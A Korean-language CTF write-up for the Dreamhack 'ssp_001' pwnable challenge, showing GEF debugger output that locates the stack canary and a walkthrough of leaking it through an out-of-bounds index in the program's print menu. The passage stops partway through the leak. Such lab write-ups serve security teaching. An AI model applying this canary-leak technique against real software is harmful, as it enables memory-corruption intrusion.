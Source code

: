 `EBP` = `0xf7ffd020`


<br>


```bash
gef➤  b * main+28
Breakpoint 2 at 0x8048747
gef➤ c
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048738 <main+13>        mov    DWORD PTR [ebp-0x98], eax
    0x804873e <main+19>        mov    eax, gs:0x14
    0x8048744 <main+25>        mov    DWORD PTR [ebp-0x8], eax
 →  0x8048747 <main+28>        xor    eax, eax
    0x8048749 <main+30>        lea    edx, [ebp-0x88]
    0x804874f <main+36>        mov    eax, 0x0
    0x8048754 <main+41>        mov    ecx, 0x10
    0x8048759 <main+46>        mov    edi, edx
    0x804875b <main+48>        rep    stos DWORD PTR es:[edi], eax

gef➤  x/8wx $ebp-0x8
0xffffd090:     0xfeee4e00      0xf7ffcb80      0xf7ffd020      0xf7d9a519
0xffffd0a0:     0x00000001      0xffffd154      0xffffd15c      0xffffd0c0
gef➤  canary
[+] The canary of process 10052 is at 0xffffd2fb, value is 0xfeee4e00
```

`canary` = `0xfeee4e00`
`canary`와 `ebp` 사이에 `0xf7ffcb80`라는 `dummy` 존재

<br>

분석한 스택을 그려보면

![stack](https://velog.velcdn.com/images/silvergun8291/post/4d9abd52-d6c1-48ca-a46d-f49df9f8d9cf/image.jpg)


<br>
<br>


### 카나리 릭

1) 메뉴 `P`를 이용하면 64 이상의 `index`를 주어 `box` 밑에 있는 값을 출력할 수 있기 때문에 이를 이용해서 카나리를 릭을 할 수 있습니다.
`box ~ canary` 까지 거리는 `128 Byte`니까 `idex`로 `128~131`을 주면 카나리 값을 릭할 수 있습니다.

```bash
ion  ~/wargame/dreamhack/pwnable/ssp_001  ./ssp_001        
[F]ill the box
[P]rint the box
[E]xit
> P
Element index : 128
Element of index 128 is : 00
[F]ill the box
[P]rint the box
[E]xit
> P
Element index : 129
Element of index 129 is : 02
[F]ill the box
[P]rint the box
[E]xit
> P   
Element index : 130
Element of index 130 is : 95
[F]ill the box
```